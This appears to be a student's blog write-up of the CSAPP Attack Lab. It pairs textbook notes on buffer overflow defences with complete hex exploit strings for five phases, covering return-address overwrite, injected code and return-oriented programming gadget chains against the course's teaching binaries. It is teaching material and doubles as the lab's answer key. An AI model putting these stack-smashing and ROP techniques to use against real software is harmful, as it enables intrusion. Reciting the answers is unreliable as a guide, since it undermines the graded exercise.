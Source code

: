 ```yaml
---
title: Lab 3 Attack Lab
date: 2021-02-01 08:51:48
tags: 
- CSAPP

categories: 
- Study

sidebar: True
lang: en-US
---
```



<!--more-->


## Textbook 3.10 Combining Control and Data in Machine-level Programs

- Function Pointers
  ```C
  int fun(int x, int *p);
  
  int (*fp)(int, int *);
  fp = fun;
  
  int y = 1;
  int result = fp(3, &y);
  ```
- Out of bounds memory and buffer overflow leaves program vulnerable to attacks
- by corrupting the `ret` address
- To thwart buffer overflow attacks
  - **stack randomization**: make it harder for attacker to guess the exact ret address, attackers may use `nop sled` to bypass it
  - **stack corruption detection**  maintain a `canary` value, to check whether buffer overflows
  - **limit executable code regions** three mode of access in instructions for memory: read/write/execute. For historic reasons, x86 will introduce significant inefficiencies while AMD NX(no-execute) bit has no peanalty in efficiency

- To support variable stack size, `$rbp` is used as a frame pointer. Earlier versions of code always uses `$rbp`, while in x86-64 codes, it is used only when stack is of variable size. 


## Attack 1

By making a breakpoint at `getbuf`, we can know the location of return address in the stack frame. We simply fill the buffer area and make an overflow to overwrite the return address to the entry of touch1.

The entry of `touch1` can be found through `disas touch1`.

```
01 00 00 00 00 00 00 00 
02 00 00 00 00 00 00 00 
03 00 00 00 00 00 00 00 
04 00 00 00 00 00 00 00 
05 00 00 00 00 00 00 00 # buf
c0 17 40 00 00 00 00 00 # return add of touch1
```


## Attack 2

The code we will inject is as follows. We put them at the beginning of the buffer area, and then overwrite the return address with the pointer to the beginning of our injection code. At the end of our code, we will call a `ret` instruction. It will check the return address on `%rsp-8`.

In order to jump to `touch2` function, in addition to the return address of our injection code, we also need to overwrite an address to the entry of `touch2` below that return address.


```
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 8b 3c 25 e4 44 60    mov    0x6044e4,%rdi
   7:   00 
   8:   c3                      retq   
```

```
48 8b 3c 25 e4 44 60 00 # mov cookie to rdi and ret
c3 00 00 00 00 00 00 00 # jmp to ret address
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00 # return to inj code (buf at line 1)
ec 17 40 00 00 00 00 00 # (on return) jmp destination
```

## Attack 3

Here we need to pass a pointer instead of a value to the `touch3` function.

```
0000000000000000 <.text>:
   0:   48 c7 c7 b0 dc 61 55    mov    $0x5561dcb0,%rdi  # address of cookie string
   b:   c3                      retq   
```

The address should point to a string in the stack frame. Here we append a cookie string at the end of the input. We can locate the address of that string in gdb, so that we can finish encoding the injection code.

```
48 c7 c7 b0 dc 61 55 c3 # mov cookie to rdi and ret
00 00 00 00 00 00 00 00 # jmp
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00 # return to inj code (buf at line 1)
fa 18 40 00 00 00 00 00 # (on return) jmp destination
35 39 62 39 39 37 66 61 # <- beg of cookie string
00
```
::: tip
Note that our input string is at a higher address of the stack. Therefore, future function calls that may modify the stack will not interfere with our string. Therefore, the `00` buffer space is not a desired place for the cookie string, since it will be popped when `getbuf` is returned. 
:::

### Attack 4

We first use `objdump -h rtarget` to check the instructions provided by the `farm.c`. After some efforts in observation, we have found two useful utilities.

```
(gdb) x /3i 0x4019ab
   0x4019ab <addval_219+4>:     pop    %rax
   0x4019ac <addval_219+5>:     nop
   0x4019ad <addval_219+6>:     retq 
```

```
(gdb) x /2i 0x4019a3
   0x4019a3 <addval_273+3>:     mov    %eax,%edi
   0x4019a5 <addval_273+5>:     retq   
```

The return-oriented programming is designed as follows. First, we pop a value (the cookie as integer) from stack to a register`%eax`. Then the stack frame pointer will move down a byte. Then it will be redirected to the next utility that pass the value in `%eax` to function argument `%edi`. Then we call the function `touch2`, the attack is done.

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  
ab 19 40 00 00 00 00 00 # return to rax
fa 97 b9 59 00 00 00 00 # pop to rax
a3 19 40 00 00 00 00 00 # return to mov 
ec 17 40 00 00 00 00 00 # return to touch2
```


## Attack 5

By comparing the helper table in Appendix 2 and the instructions in `farm.c`, we can identify two parameter passing chains. One for `movl` and one for `movq`. Both start from `%rax`, where there is a `pop %rax` utility to make use of.

The attack scheme is designed as follows.

### Move rsp pointer to rdi

First, we need to store a `rsp` pointer that points to the cookie string so that we can pass it to the argument of `touch3`. We should move that `rsp` to a register. Note that the `rsp` can be quite large, so we should use the `movl` chain.

```
gdb) x /2i 0x401a06
   0x401a06 <addval_190+3>:     mov    %rsp,%rax
   0x401a09 <addval_190+6>:     retq  
(gdb) x /3i 0x4019a2
   0x4019a2 <addval_273+2>:     mov    %rax,%rdi
   0x4019a5 <addval_273+5>:     retq   
   0x4019a6 <addval_273+6>:     retq 
```

### Move Small number to rsi

Note that `rsp` keeps changing, so an offset is needed. Luckily, we have a utility function `add_xy`. We can make use of the `movl` chain to load an offset and add it to the previously obtained `rsp`.

```
(gdb) x /2i 0x401a07
   0x401a07 <addval_190+4>:     mov    %esp,%eax
   0x401a09 <addval_190+6>:     retq  
(gdb) x /3i 0x401a42
   0x401a42 <addval_487+2>:     mov    %eax,%edx
   0x401a44 <addval_487+4>:     test   %al,%al
   0x401a46 <addval_487+6>:     retq
(gdb) x /3i 0x401a69
   0x401a69 <getval_311+1>:     mov    %edx,%ecx
   0x401a6b <getval_311+3>:     or     %bl,%bl
   0x401a6d <getval_311+5>:     retq  
(gdb) x /3i 0x401a27
   0x401a27 <addval_187+2>:     mov    %ecx,%esi
   0x401a29 <addval_187+4>:     cmp    %al,%al
   0x401a2b <addval_187+6>:     retq  
```

```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```


### Solution

As before, the cookie string will be stored at the highest address. We obtain an `rsp` value first, then calculate the offset. By adding them together and passing the result to `touch3`, the attack is done.

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  
06 1a 40 00 00 00 00 00 # [mov %rsp, %rax], offset from here
a2 19 40 00 00 00 00 00 # [mov %rax, %rdi]
ab 19 40 00 00 00 00 00 # return to [pop %rax]
48 00 00 00 00 00 00 00 # pop the offset to %rax
42 1a 40 00 00 00 00 00 # [mov %eax, %edx]
69 1a 40 00 00 00 00 00 # [mov %edx, %ecx]
27 1a 40 00 00 00 00 00 # [mov %ecx, %esi]
d6 19 40 00 00 00 00 00 # call [add_xy] to add rsp and offset to %eax
a2 19 40 00 00 00 00 00 # [mov %rax, %rdi]
fa 18 40 00 00 00 00 00 # return to touch3
35 39 62 39 39 37 66 61 # [object string], offset to here
00 00 00 00 00 00 00 00
```